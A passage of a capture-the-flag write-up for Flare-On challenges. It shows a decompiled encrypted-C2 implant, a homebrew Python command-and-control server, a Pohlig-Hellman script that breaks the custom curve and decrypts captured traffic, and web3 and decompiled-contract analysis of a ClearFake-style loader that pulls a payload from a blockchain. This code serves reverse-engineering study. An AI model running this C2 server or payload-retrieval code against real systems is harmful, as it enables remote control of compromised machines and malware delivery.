  *(_OWORD *)(key + 32) = v36;
  RhpAssignRefAVLocation((void **)(ptr_key + 8), key);
  params = RhpNewFast(&unk_14015C610);
  RhpAssignRefAVLocation((void **)(params + 8), ptr_key);
  iv = RhpNewArray(word_14018B688, 8ui64);
  *(_QWORD *)(iv + 16) = *((_QWORD *)keybuf + 4);
  RhpAssignRefAVLocation((void **)(params + 16), iv);
  qword_14015A6C0(objs->chacha, 1i64, params);  // ChaChaEngine.Init(...)
  v39 = sub_1401083C0();
  str_verify = dec_str(&qword_140140100);
  if ( !(unsigned int)String__Equals_0(v39, str_verify) )
  {
    v48 = RhpNewFast(&unk_140160BA8);
    str_verify_failed = dec_str(&qword_140140130);
    S_P_CoreLib_System_InvalidOperationException___ctor_0(v48, (unsigned __int64)str_verify_failed);
    RhpThrowEx(v48);
  }
  str_verify_1 = dec_str(&qword_140140100);
  send_enc_socket(str_verify_1);
}

void __stdcall Program_Main()
{
  Program_static *objs; // rbx
  void *str_addr_port; // rsi
  unsigned __int64 *str_delim; // rdx
  _QWORD *v3; // rax
  __int64 v4; // rcx
  __int64 hostname; // rsi
  __int64 v6; // rax
  void *v7; // rdi
  uint32_t v8; // r14d
  __int64 CurrentInfo; // rax
  int v10; // eax
  unsigned int port; // edi
  __int64 v12; // r14
  unsigned __int64 Stream; // rax
  array v14; // [rsp+28h] [rbp-40h] BYREF
  __int64 v15[5]; // [rsp+38h] [rbp-30h] BYREF

  v14 = 0i64;
  v15[0] = 0i64;
  if ( qword_140158FC0[-1] )
    _GetGCStaticBase_System_Net_Sockets_System_Net_Sockets_SocketsTelemetry();
  objs = glb_obj_state;
  str_addr_port = dec_str(&qword_14013EB90);
  str_delim = (unsigned __int64 *)dec_str(&qword_14013F060);
  if ( !str_delim )
    str_delim = &qword_14013A048;
  v3 = str_split(str_addr_port, str_delim, 0i64, 0x7FFFFFFF, 0);
  v4 = *((unsigned int *)v3 + 2);
  if ( !(_DWORD)v4 || (hostname = v3[2], (unsigned int)v4 <= 1) )
    S_P_CoreLib_Internal_Runtime_CompilerHelpers_ThrowHelpers__ThrowIndexOutOfRangeException(v4);
  v6 = v3[3];
  if ( !v6 )
    S_P_CoreLib_System_ThrowHelper__ThrowArgumentNullException(17i64);
  v7 = (void *)(v6 + 12);
  v8 = *(_DWORD *)(v6 + 8);
  v14.data = (void *)(v6 + 12);
  v14.size = v8;
  CurrentInfo = S_P_CoreLib_System_Globalization_NumberFormatInfo__get_CurrentInfo();
  v10 = sub_14012B5E0(&v14, 7, CurrentInfo, (int *)v15);
  if ( v10 )
  {
    if ( v10 == 1 )
    {
      v14.data = v7;
      v14.size = v8;
      sub_1401292F0((__int64)&v14);
    }
    sub_14012F480();
  }
  port = v15[0];
  v12 = RhpNewFinalizable(&unk_14015EC20);
  new_socket(v12, hostname, port);
  RhpAssignRefAVLocation(&objs->socket, v12);
  Stream = System_Net_Sockets_System_Net_Sockets_TcpClient__GetStream((__int64)objs->socket);
  RhpAssignRefAVLocation(&objs->socket_stream, Stream);
  do_kex();
  handle_cmd();
}
```

Homebrew server:

```python
from sage.all import *

import hashlib
import random
import socketserver
import socket

from Crypto.Cipher.ChaCha20 import new as new_chacha20, ChaCha20Cipher

CURVE_Q = 0xC90102FAA48F18B5EAC1F76BB40A1B9FB0D841712BBE3E5576A7A56976C2BAECA47809765283AA078583E1E65172A3FD
CURVE_A = 0xA079DB08EA2470350C182487B50F7707DD46A58A1D160FF79297DCC9BFAD6CFC96A81C4A97564118A40331FE0FC1327F
CURVE_B = 0x9F939C02A7BD7FC263A4CCE416F4C575F28D0C1315C4F0C282FCA6709A5F9F7F9C251C9EEDE9EB1BAA31602167FA5380
CURVE_GX = 0x087B5FE3AE6DCFB0E074B40F6208C8F6DE4F4F0679D6933796D3B9BD659704FB85452F041FFF14CF0E9AA7E45544F9D8
CURVE_GY = 0x127425C1D330ED537663E87459EAA1B1B53EDFE305F6A79B184B3180033AAB190EB9AA003E02E9DBF6D593C5E3B08182

K = GF(CURVE_Q)
E = EllipticCurve(K, (K(CURVE_A), K(CURVE_B)))
G = E(CURVE_GX, CURVE_GY)

XOR_KEY = 0x133713371337133713371337133713371337133713371337133713371337133713371337133713371337133713371337

def recv_str(s: socket.socket, chacha: ChaCha20Cipher) -> bytes:
    buf = bytearray()
    while True:
        ch = s.recv(1)
        if len(ch) == 0:
            break
        ch = chacha.encrypt(ch[0:1])[0]
        if ch == 0:
            break
        buf.append(ch)
    return bytes(buf)

class Handler(socketserver.StreamRequestHandler):
    request: socket.socket

    def handle(self):
        print(f"[*] conn: from {self.client_address}")
        Px = int.from_bytes(self.request.recv(48), "big") ^ XOR_KEY
        Py = int.from_bytes(self.request.recv(48), "big") ^ XOR_KEY
        P = E(Px, Py)
        print(f"[*] kex: P = {P}")
        k = random.randint(2, CURVE_Q - 1)
        print(f"[*] kex: k = {k}")
        M = k * P
        assert not M.is_zero()
        C = k * G
        print(f"[*] kex: C = {C}")
        keybuf = hashlib.sha512(int(M.x()).to_bytes(48, "big")).digest()
        key, iv = keybuf[:32], keybuf[32:32+8]
        print("[*] kex: key:", key.hex())
        print("[*] kex: iv:", iv.hex())
        self.request.sendall((int(C.x()) ^ XOR_KEY).to_bytes(48, "big"))
        self.request.sendall((int(C.y()) ^ XOR_KEY).to_bytes(48, "big"))
        chacha = new_chacha20(key=key, nonce=iv)
        self.request.sendall(chacha.encrypt(b"verify\x00"))
        assert recv_str(self.request, chacha) == b"verify"
        print("[+] Connected.")
        while True:
            try:
                cmd = input("> ")
                self.request.sendall(chacha.encrypt(cmd.encode("ascii") + b"\x00"))
                data = recv_str(self.request, chacha)
                print(data.decode("ascii", errors="replace"))
            except:
                print("[*] Closing.")
                break

with socketserver.TCPServer(("0.0.0.0", 31339), Handler) as server:
    print(f"[*] Listening on {server.server_address}")
    server.serve_forever()
```

ECDH -> ChaCha20

For a custom curve $C$ and its generator $G$, randomly sample a 128-bit $n$, send $nG$, receive $M=kG$, calculate $S=nM=nkG$, use $\mathrm{SHA512}(S_x)$ as key and IV.

Apply Pohlig-Hellman attack to obtain DL $k'$ over the system of congruences of smaller-order subgroups, then apply a small amount of brute forcing the equation $k'+im=k$ where $m$ is the product of orders of said subgroups. This is feasible because both $k'$ and $m$ are close (~10 bits) to the upper bound of $k$.

```python
from sage.all import *

import hashlib

from Crypto.Cipher.ChaCha20 import new as new_chacha20
from tqdm import tqdm

CURVE_Q = 0xC90102FAA48F18B5EAC1F76BB40A1B9FB0D841712BBE3E5576A7A56976C2BAECA47809765283AA078583E1E65172A3FD
CURVE_A = 0xA079DB08EA2470350C182487B50F7707DD46A58A1D160FF79297DCC9BFAD6CFC96A81C4A97564118A40331FE0FC1327F
CURVE_B = 0x9F939C02A7BD7FC263A4CCE416F4C575F28D0C1315C4F0C282FCA6709A5F9F7F9C251C9EEDE9EB1BAA31602167FA5380
CURVE_GX = 0x087B5FE3AE6DCFB0E074B40F6208C8F6DE4F4F0679D6933796D3B9BD659704FB85452F041FFF14CF0E9AA7E45544F9D8
CURVE_GY = 0x127425C1D330ED537663E87459EAA1B1B53EDFE305F6A79B184B3180033AAB190EB9AA003E02E9DBF6D593C5E3B08182

K = GF(CURVE_Q)
E = EllipticCurve(K, (K(CURVE_A), K(CURVE_B)))
G = E(CURVE_GX, CURVE_GY)

XOR_KEY = 0x133713371337133713371337133713371337133713371337133713371337133713371337133713371337133713371337

PX = 0x0A6C559073DA49754E9AD9846A72954745E4F2921213ECCDA4B1422E2FDD646FC7E28389C7C2E51A591E0147E2EBE7AE ^ XOR_KEY
PY = 0x264022DAF8C7676A1B2720917B82999D42CD1878D31BC57B6DB17B9705C7FF2404CBBF13CBDB8C096621634045293922 ^ XOR_KEY
P = E(PX, PY)

MX = 0xA0D2EBA817E38B03CD063227BD32E353880818893AB02378D7DB3C71C5C725C6BBA0934B5D5E2D3CA6FA89FFBB374C31 ^ XOR_KEY
MY = 0x96A35EAF2A5E0B430021DE361AA58F8015981FFD0D9824B50AF23B5CCF16FA4E323483602D0754534D2E7A8AAF8174DC ^ XOR_KEY
C = E(MX, MY)

CIPHER = bytes.fromhex("f272d54c31860f3fbd43da3ee32586dfd7c50cea1c4aa064c35a7f6e3ab0258441ac1585c36256dea83cac93007a0c3a29864f8e285ffa79c8eb43976d5b587f8f35e699547116fcb1d2cdbba979c989998c61490bce39da577011e0d76ec8eb0b8259331def13ee6d86723eac9f0428924ee7f8411d4c701b4d9e2b3793f6117dd30dacba2cae600b5f32cea193e0de63d709838bd6a7fd35edf0fc802b15186c7a1b1a475daf94ae40f6bb81afcedc4afb158a5128c28c91cd7a8857d12a661acaecaec8d27a7cf26a1727368535a44e2f3917ed09447ded797219c966ef3dd5705a3c32bdb1710ae3b87fe66669e0b4646fc416c399c3a4fe1edc0a3ec5827b84db5a79b81634e7c3afe528a4da15457b637815373d4edcac2159d056f5981f71c7ea1b5d8b1e5f06fc83b1def38c6f4e694e3706412eabf54e3b6f4d19e8ef46b04e399f2c8ece8417fa4008bc54e41ef701fee74e80e8dfb54b487f9b2e3a277fa289cf6cb8df986cdd387e342ac9f5286da11ca27840845ca68d1394be2a4d3d4d7c82e531b6dac62ef1ad8dc1f60b79265ed0deaa31ddd2d53aa9fd9343463810f3e2232406366b48415333d4b8ac336d4086efa0f15e6e590d1ec06f36")

def pohlig_hellman(P, Q):
    zList = []
    conjList = []
    rootList = []
    n = P.order()
    factors = n.factor()
    modulus = 1
    print(f"factors: {factors}")
    for base, exp in factors:
        if base > 10000000:
            continue
        modulus *= base ** exp
        P0 = (ZZ(n / base)) * P
        conjList.append(0)
        rootList.append(base ** exp)
        for i in range(exp):
            Qpart = Q
            for j in range(1, i + 1):
                Qpart = Qpart - (zList[j - 1] * (base ** (j - 1)) * P)
            Qi = (ZZ(n / (base ** (i + 1)))) * Qpart
        print(f"subgroup {base}**{exp}")
        zList.insert(i, Qi.log(P0))
        conjList[-1] = conjList[-1] + zList[i] * (base ** i)
    k = crt(conjList, rootList)
    return k, modulus

print("start ecdlp")
kp, modulus = pohlig_hellman(G, P)
print(kp)

for i in tqdm(range(1, 100000)):
    k = K(kp + i * modulus)
    if k * G == P:
        print(f"found: {k}")
        break

M = k * C
keybuf = hashlib.sha512(int(M.x()).to_bytes(48, "big")).digest()
key, iv = keybuf[:32], keybuf[32:32+8]
chacha = new_chacha20(key=key, nonce=iv)
print(chacha.encrypt(CIPHER))
```

```bash
verify\x00verify\x00ls\x00=== dirs ===\r\nsecrets\r\n=== files ===\r\nfullspeed.exe\r\n\x00cd|secrets\x00ok\x00ls\x00=== dirs ===\r\nsuper secrets\r\n=== files ===\r\n\x00cd|super secrets\x00ok\x00ls\x00=== dirs ===\r\n.hidden\r\n=== files ===\r\n\x00cd|.hidden\x00ok\x00ls\x00=== dirs ===\r\nwait, dot folders aren't hidden on windows\r\n=== files ===\r\n\x00cd|wait, dot folders aren't hidden on windows\x00ok\x00ls\x00=== dirs ===\r\n=== files ===\r\nflag.txt\r\n\x00cat|flag.txt\x00RDBudF9VNWVfeTB1cl9Pd25fQ3VSdjNzQGZsYXJlLW9uLmNvbQ==\x00exit\x00
```

[CyberChef decoding recipe](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=UkRCdWRGOVZOV1ZmZVRCMWNsOVBkMjVmUTNWU2RqTnpRR1pzWVhKbExXOXVMbU52YlE9PQ)

`D0nt_U5e_y0ur_Own_CuRv3s@flare-on.com`

## 8 - clearlyfake

> I am also considering a career change myself but this beautifully broken JavaScript was injected on my WordPress site I use to sell my hand-made artisanal macaroni necklaces, not sure what’s going on but there’s something about it being a Clear Fake? Not that I’m Smart enough to know how to use it or anything but is it a Contract?
> 7zip archive password: flare

Basic Solidity/EVM reverse engineering challenge with matryoshka-like structure. Stripping off all these layers took efforts, but it fell short before what came after it.

```python
from web3 import Web3

# Connect to the Ethereum node
web3 = Web3(Web3.HTTPProvider("https://bsc-testnet.blockpi.network/v1/rpc/public"))

# Check if connected
if web3.is_connected():
    print("Connected to Ethereum node")

# Specify the contract address
contract_address = bytes.fromhex("9223f0630c598a200f99c5d4746531d10319a569")

# Fetch the bytecode
bytecode = web3.eth.get_code(contract_address)

# Print the bytecode
print(f"Bytecode for contract at {contract_address}: {bytecode.hex()}")
```

```javascript
const Web3 = require("web3");
const fs = require("fs");
const web3 = new Web3("BINANCE_TESTNET_RPC_URL");
const contractAddress = "0x9223f0630c598a200f99c5d4746531d10319a569";
async function callContractFunction(inputString) {
  try {
    const methodId = "0x5684cff5";
    const encodedData =
      methodId +
      web3.eth.abi.encodeParameters(["string"], [inputString]).slice(2);
    const result = await web3.eth.call({
      to: contractAddress,
      data: encodedData,
    });
    const largeString = web3.eth.abi.decodeParameter("string", result);
    const targetAddress = Buffer.from(largeString, "base64").toString("utf-8");
    const filePath = "decoded_output.txt";
    fs.writeFileSync(filePath, "$address = " + targetAddress + "\\n");
    const new_methodId = "0x5c880fcb";
    const blockNumber = 43152014;
    const newEncodedData =
      new_methodId +
      web3.eth.abi.encodeParameters(["address"], [targetAddress]).slice(2);
    const newData = await web3.eth.call(
      { to: contractAddress, data: newEncodedData },
      blockNumber
    );
    const decodedData = web3.eth.abi.decodeParameter("string", newData);
    const base64DecodedData = Buffer.from(decodedData, "base64").toString(
      "utf-8"
    );
    fs.writeFileSync(filePath, decodedData);
    console.log(`Saved decoded data to:${filePath}`);
  } catch (error) {
    console.error("Error calling contract function:", error);
  }
}
const inputString = "KEY_CHECK_VALUE";
callContractFunction(inputString);
```

```solidity
_// Decompiled by library.dedaub.com_
_// 2024.08.29 21:32 UTC_
_// Compiled using the solidity compiler version 0.8.26_

function function_selector() public payable { 
    revert();
}

function testStr(string str) public payable { 
    require(4 + (msg.data.length - 4) - 4 >= 32);
    require(str <= uint64.max);
    require(4 + str + 31 < 4 + (msg.data.length - 4));
    require(str.length <= uint64.max, Panic(65)); _// failed memory allocation (too much memory)_
    v0 = new bytes[](str.length);
    require(!((v0 + ((str.length + 31 & 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe0) + 32 + 31 & 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe0) > uint64.max) | (v0 + ((str.length + 31 & 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe0) + 32 + 31 & 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe0) < v0)), Panic(65)); _// failed memory allocation (too much memory)_
    require(str.data + str.length <= 4 + (msg.data.length - 4));
    CALLDATACOPY(v0.data, str.data, str.length);
    v0[str.length] = 0;
    if (v0.length == 17) {
        require(0 < v0.length, Panic(50)); _// access an out-of-bounds or negative index of bytesN array or slice_
        v1 = v0.data;
        if (bytes1(v0[0] >> 248 << 248) == 0x6700000000000000000000000000000000000000000000000000000000000000) {
            require(1 < v0.length, Panic(50)); _// access an out-of-bounds or negative index of bytesN array or slice_
            if (bytes1(v0[1] >> 248 << 248) == 0x6900000000000000000000000000000000000000000000000000000000000000) {
                ... // Snipped for brevity
            } else {
                v6 = v22 = 0x53387f3321fd69d1e030bb921230dfb188826aff;
            }
        } else {
            v6 = v23 = 0x40d3256eb0babe89f0ea54edaa398513136612f5;
        }
    } else {
        v6 = v24 = 0x76d76ee8823de52a1a431884c2ca930c5e72bff3;
    }
    MEM[MEM[64]] = address(v6);
    return address(v6);
}

_// Note: The function selector is not present in the original solidity code._
_// However, we display it for the sake of completeness._

function function_selector( function_selector) public payable { 
    MEM[64] = 128;
    require(!msg.value);
    if (msg.data.length >= 4) {
        if (0x5684cff5 == function_selector >> 224) {
            testStr(string);
        }
    }
    fallback();
}
```

[CyberChef recipe](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')&input=NjcKNjkKNTYKMzMKNWYKNGQKMzMKNWYKNzAKMzQKNzkKNGMKMzAKMzQKNjQKMjE)

`giV3_M3_p4yL04d!`

Contract at `0x5324EAB94b236D4d1456Edc574363B113CEbf09d`:

```solidity
_// Decompiled by library.dedaub.com_
_// 2024.09.28 13:35 UTC_
_// Compiled using the solidity compiler version 0.8.26_

_// Data structures and variables inferred from the use of storage instructions_
uint256[] array_0; _// STORAGE[0x0]_

function 0x14a(bytes varg0) private { 
    require(msg.sender == address(0xab5bc6034e48c91f3029c4f1d9101636e740f04d), Error('Only the owner can call this function.'));
    require(varg0.length <= uint64.max, Panic(65)); _// failed memory allocation (too much memory)_
    v0 = 0x483(array_0.length);
    if (v0 > 31) {
        v1 = v2 = array_0.data;
        v1 = v3 = v2 + (varg0.length + 31 >> 5);
        while (v1 < v2 + (v0 + 31 >> 5)) {
            STORAGE[v1] = STORAGE[v1] & 0x0 | uint256(0);
            v1 = v1 + 1;
        }
    }
    v4 = v5 = 32;
    if (varg0.length > 31 == 1) {
        v6 = array_0.data;
        v7 = v8 = 0;
        while (v7 < varg0.length & 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe0) {
            STORAGE[v6] = MEM[varg0 + v4];
            v6 = v6 + 1;
            v4 = v4 + 32;
            v7 = v7 + 32;
        }
        if (varg0.length & 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe0 < varg0.length) {
            STORAGE[v6] = MEM[varg0 + v4] & ~(uint256.max >> ((varg0.length & 0x1f) << 3));
        }
        array_0.length = (varg0.length << 1) + 1;
    } else {
        v9 = v10 = 0;
        if (varg0.length) {
            v9 = MEM[varg0.data];
        }
        array_0.length = v9 & ~(uint256.max >> (varg0.length << 3)) | varg0.length << 1;
    }
    return ;
}

function fallback() public payable { 
    revert();
}

function 0x5c880fcb() public payable { 
    v0 = 0x483(array_0.length);
    v1 = new bytes[](v0);
    v2 = v3 = v1.data;
    v4 = 0x483(array_0.length);
    if (v4) {
        if (31 < v4) {
            v5 = v6 = array_0.data;
            do {
                MEM[v2] = STORAGE[v5];
                v5 += 1;
                v2 += 32;
            } while (v3 + v4 <= v2);
        } else {
            MEM[v3] = array_0.length >> 8 << 8;
        }
    }
    v7 = new bytes[](v1.length);
    MCOPY(v7.data, v1.data, v1.length);
    v7[v1.length] = 0;
    return v7;
}

function 0x483(uint256 varg0) private { 
    v0 = v1 = varg0 >> 1;
    if (!(varg0 & 0x1)) {
        v0 = v2 = v1 & 0x7f;
    }
    require((varg0 & 0x1) - (v0 < 32), Panic(34)); _// access to incorrectly encoded storage byte array_
    return v0;
}

function owner() public payable { 
    return address(0xab5bc6034e48c91f3029c4f1d9101636e740f04d);
}

function 0x916ed24b(bytes varg0) public payable { 
    require(4 + (msg.data.length - 4) - 4 >= 32);
    require(varg0 <= uint64.max);
    require(4 + varg0 + 31 < 4 + (msg.data.length - 4));
    require(varg0.length <= uint64.max, Panic(65)); _// failed memory allocation (too much memory)_
    v0 = new bytes[](varg0.length);
    require(!((v0 + ((varg0.length + 31 & 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe0) + 32 + 31 & 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe0) > uint64.max) | (v0 + ((varg0.length + 31 & 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe0) + 32 + 31 & 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe0) < v0)), Panic(65)); _// failed memory allocation (too much memory)_
    require(varg0.data + varg0.length <= 4 + (msg.data.length - 4));
    CALLDATACOPY(v0.data, varg0.data, varg0.length);
    v0[varg0.length] = 0;
    0x14a(v0);
}

_// Note: The function selector is not present in the original solidity code._
_// However, we display it for the sake of completeness._

function __function_selector__() private { 
    MEM[64] = 128;
    require(!msg.value);
    if (msg.data.length >= 4) {
        if (0x5c880fcb == msg.data[0] >> 224) {
            0x5c880fcb();
        } else if (0x8da5cb5b == msg.data[0] >> 224) {
            owner();
        } else if (0x916ed24b == msg.data[0] >> 224) {
            0x916ed24b();
        }
    }
    fallback();
}
```

[Testnet BSCScan result](https://testnet.bscscan.com/tx/0x05660d13d9d92bc1fc54fb44c738b7c9892841efc9df4b295e2b7fda79756c47#statechange)

Replacer regex: `Storage Address:\n\s*0x[0-9a-f]+\nBefore:\n(?:\s*0x[0-9a-f]+\n)?After:\n\s*0x([0-9a-f]+)`

One intelligible content:

[CyberChef 1](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')From_Base64('A-Za-z0-9%2B/%3D',true,true)&input=NTczMzRlNWE2MzMzNTI0NjYyNTMzNTU1NWE1ODY4MzA0YzZkNTY0ZjUxMzAzOTQ1NjE1NzM1NDg1ODU0NmYzNgo2NDU3MzU3MDU5MzIzOTZiNTI1MzM1NmU1YTU4NTI1NDY0NDg0YTcwNjI2YjYzNmY1NzMzNGU1YTYzMzM1MjQ2CjYyNTMzNTZhNTQzMDM1MzI1MjU4NGEzMDU4NTQ2ZjM2NTI2ZTRhNzY1NDU3NGE2ODU1MzA1NTMyNGU0ODRlMzAKNTU2YjZjNzU1Mjc5Njc2OTUzNTg2NDQzNTUzMDQ2NDg1MjU1NDY2YTY0MzA0OTc3NTE1NTY0NDY1MTU1Nzg1Mgo1MTZlNTI0MjUyN2E2ODQyNWE0NjQ2NDM2NTZiNDY0ODU2NTU0NjZhNjQzMDQ2NmU1MTU1NTY0NjUxNTc0YTUyCjUxNmU3MDQyNTIzMjc0NDI1NDQ2NDY0MzU2NDU0NjQ4NTQ1NTQ2NWE1NTU1NGEzMTUxNTU0ZDc3NTE1NjQ2NmUKNTE2YTQ2NDI1MjMxNmM0MjU3NmQ2NDQzNjI0NTQ2NDk1MzU1NDY0YTUxNTU0YTMzNTE1NTY0NDY1MTU3NTI0Mgo1MTZkNzA0MjUyMzI2NDQyNTM1NTQ2NDM1OTMwNDY0ODRlNDU0NjQ1NTU1NTQ2NGM1MTU1NGU1MjUxNTY3MDZlCjUxNmQzOTQyNTIzMTZjNDI1YTU2NDY0MzYxNmI0NjQ0NTE1NTQ2NTE1NTU1NDY2ZTUxNTU1NjQyNTE1NTZjNmUKNTE1NTM1NDI1MTU3Mzk0MjVhNDY0NjQzNjU2YjQ2NDg2MTMwNDY2OTVhMzA0YTc1NTE1NTRlNDI1MTU2NTYzMwo1MTZhNTY0MjUzNDUzMTQyNWE0NTQ2NDM2MjQ1NDY0ODRkNDU0NjUwNjQzMDQ2NGY1MTU1NDY3NjUxNTc1MjUyCjUxNmU3MDQyNTIzMjc0NDI1OTZkNjQ0MzYyNmI0NjQ0NTE1NTQ2NTY2NDMwNDkzMTUxNTU2ODRlNTE1NzUyNDIKNTE2ZDc4NDI1MjdhNDI0MjU0NDc2NDQzNTUzMDQ2NDk1NjU1NDY2OTVhMzA0OTc3NTE1NTY0NzI1MTU3NGE1Mgo1MTZkNzg0MjUxN2E1MjQyNTUzMTQ2NDM2NDU1NDY0OTU1NTU0NjYxNTU1NTRhMzU1MTU1NjMzNDUxNTc0ZTQyCjUxNmM1MjQyNTIzMTU2NDI1OTMyNjQ0MzRkNmI0NjQ4NjEzMDQ2NWE2NDMwNGE3MzUxNTU2ODRlNTE1NTM5MzMKNTE1NTM1NDI1MTU3Mzk0MjU5MzA0NjQzNGQ1NTQ2NDg1MzU1NDY2OTUxNTU0YTc3NTE1NTY0NGU1MTU1NmM0Mgo1MTZkNzA0MjUyMzM2NDQyNTc1NjQ2NDM2NTZiNDY0OTU0NTU0NjRhNTE1NTRhNzQ1MTU1NjQ2ZTUxNTY3MDZlCjUxNmE1NjQyNTIzMDMxNDI1MzU1NDY0MzRlMzA0NjQyNGQ0NTQ2NDQ1YTMwNDY2ZTUxNTU0ZTQyNTE1NTZjNDIKNTE1NzY0NDI1MjZlNGU0MjU1NmI0NjQzNjMzMDQ2NDg2NDMwNDY1NDU1NTU0YTMwNTE1NTY4NDI1MTU3NGEzMwo1MTZlNmM0MjUzNDY0NjQyNTMzMDQ2NDI2MTU1NDY0ODYzMzA0NjYxNTU1NTRhMzU1MTU1NjMzMDUxNTY3MDUyCjUxNmU0ZTQyNTI0NTMxNDI1NDU3NjQ0MjYxNTU0NjQ0NjEzMDQ2NTk1NTU1NDY0ZjUxNTU0Njc2NTE1NTZjNDIKNTE1NzY0NDI1MTMwNDY0MjUzNTU0NjQzNjQzMDQ2NDk1NjU1NDY1YTVhMzA0YTdhNTE1NTY0NzI1MTU2NmMzMwo1MTU3NjQ0MjUzNDUzMTQyNWE0NTQ2NDM2MTQ1NDY0OTU1NTU0NjY4NTU1NTRhNzE1MTU1NGU0MjUxNTY3MDUyCjUxNmE1MjQyNTM0NjQ2NDI1NzZjNDY0MzY1NTU0NjQ4NGU0NTQ2NGE1MTU1NGE0YjUxNTU2MzMwNTE1NzUyNDIKNTE2YzQ2NDI1MzQ2NDY0MjU5MzI2NDQyNWEzMDQ2NDY1OTMwNDY2MTU1NTU0OTc3NTE1NTVhNDI1MTU3NGU2ZQo1MTZlNWE0MjUyMzAzMTQyNTU1NjQ2NDM2MTMwNDY0ODU1NTU0NjZhNWEzMDRhNzM1MTU1Njg0ZTUxNTc0ZTMzCjUxNTczOTQyNTI1Nzc0NDI1OTZkNjQ0MzRkNDU0NjQ3NTE1NTQ2NmI1MTU1NGEzNTUxNTU0ZTQyNTE1NzQ2NDIKNTE2YjM1NDI1MjdhNjg0MjU3NmI0NjQzNGQ1NTQ2NDg2NDMwNDY2MTU1NTU0NjdhNTE1NTRlNDI1MTU3NGUzMwo1MTZhNDI0MjUzNDU2YzQyNTk1NjQ2NDM2NDU1NDY0ODU5MzA0NjRhNTE1NTRhMzM1MTU1Njg0YTUxNTc0YTMzCjUxNmQ3MDQyNTI1NDUyNDI1NzU2NDY0MzY0NDU0NjQ4NTY1NTQ2NGM1NTU1NDUzMzUxNTU0NTc3NTE1NTRlNmUKNTE1NzY0NDI1MTMwNDY0MjUzNTU0NjQyNWEzMDQ2NDc2MzMwNDY1MzUxNTU0YTdhNTE1NTY0MzM1MTU2NGU1Mgo1MTZlNTI0MjUzNDU0NjQyNTk2ZTY0NDM2NTU1NDY0OTU1NTU0NjRjNTE1NTQ2NzA1MTU1NjQ3YTUxNTY3MDUyCjUxNmU2YzQyNTI3YTUyNDI1NzZjNDY0MzYzMzA0NjQ1NTQ1NTQ2NGU1YTMwNDY3MDUxNTU0ZTcyNTE1NjY4NTIKNTE1NTM1NDI1MTU3Mzk0MjUzNTU0NjQyNWEzMDQ2NDQ1MTU1NDY0YTUxNTU0YTMzNTE1NTY4NTY1MTU2NmM2ZQo1MTZlNGU0MjUyMzI3NDQyNTc1ODY0NDI1YTMwNDY0OTU0NTU0NjZiNTE1NTRhNmY1MTU1Njg1MjUxNTc0NjUyCjUxNmQ3MDQyNTEzMDQ2NDI1NzZjNDY0MzRlNDU0NjQ5NTU1NTQ2NjE1NTU1NGEzNTUxNTU2MzMwNTE1NTZjNDIKNTE2YjcwNDI1MjdhNTI0MjVhNDU0NjQzNTU1NTQ2NDk1NTU1NDY2YTVhMzA0NjZlNTE1NTU2MzM1MTU3NGEzMwo1MTZkNjg0MjUyMzE0NjQyNTY0NTQ2NDM2MzQ1NDY0ODUzNTU0NjZhNWEzMDRhNmY1MTU1Njg0YTUxNTc1NjUyCjUxNTczOTQyNTM0NTMxNDI1YTQ1NDY0MzY1NTU0NjQ4NjEzMDQ2Njk1YTMwNGE3NTUxNTU0ZTQyNTE1NzRhNmUKNTE2ZDY4NDI1MjdhNDI0MjU3NmM0NjQyNjM0NTQ2NDU2MzMwNDY0NTU1NTU0NjRjNTE1NTRlNDI1MTU1NmM0Mgo1MTU3NjQ0MjUxMzA0NjQyNTYzMzY0NDM1MjU1NDY0ODY0MzA0NjY5NTE1NTRhNGI1MTU1NjM3NzUxNTc0ZTQyCjUxNmU1YTQyNTM0NTZjNDI1YTQ1NDY0MjYyMzA0NjQ0NTM1NTQ2Njg2NDMwNGE3MzUxNTU2ODRhNTE1NzRhNmUKNTE2ZDc4NDI1MjMzNjQ0MjU0NTg2NDQyNjU1NTQ2NDQ1MzU1NDY0YzU1NTU0YTZiNTE1NTQ1Nzc1MTU1NGU2ZQo1MTU3NjQ0MjUxMzA0NjQyNTM1NTQ2NDI1YTMwNDY0OTUxNTU0NjZiNTU1NTRhNzA1MTU1NjQzMzUxNTc0NjUyCjUxNmQ3MDQyNTEzMDQ2NDI1OTMzNjQ0MzRkNDU0NjQ4NTI1NTQ2NmI1MTU1NGE3NzUxNTU2NDRlNTE1NTZjNDIKNTE2ZDc4NDI1MzQ3NjQ0MjVhNDU0NjQzNjI0NTQ2NDk1MzU1NDY2OTVhMzA0NjZlNTE1NTY0NGE1MTU3NGEzMwo1MTZlNWE0MjUyMzM2NDQyNTM1NTQ2NDM1NjMwNDY0ODYxMzA0NjZhNWEzMDQ5Nzc1MTU1Njg1NjUxNTY2YzUyCjUxNmU0ZTQyNTI2YjQ2NDI1OTMyNjQ0MzY0NmI0NjQ5NTU1NTQ2NjE1NTU1NGE3MTUxNTU2ODUyNTE1NTc0NDIKNTE2YjcwNDI1MjdhNTI0MjVhNDU0NjQzNTU1NTQ2NDk1NTU1NDY2YTVhMzA0NjZlNTE1NTY0MzM1MTU3NGU0Mgo1MTZiNGE0MjUyMzE0NjQyNTc2YjQ2NDM2NTU1NDY0ODU2NTU0NjZhNjQzMDRhMzY1MTU1NGUzMzUxNTU2YzQyCjUxNmM1YTQyNTI1Nzc0NDI1OTZkNjQ0MzRkNDU0NjQ3NTE1NTQ2NmI1MTU1NGEzNTUxNTU0ZTQyNTE1NzQ2NTIKNTE2YTUyNDI1MjMwNTY0MjU5NTc2NDQzNjQ0NTQ2NDk2MjMwNDY0ZDUxNTU0NjZlNTE1NTY4NTY1MTU3NDY1Mgo1MTZlNTY0MjUzNDY0NjQyNTM1NTQ2NDM2MjU1NDY0ODY0MzA0NjU1NWEzMDRhNzM1MTU1Njg2YTUxNTY1NjQyCjUx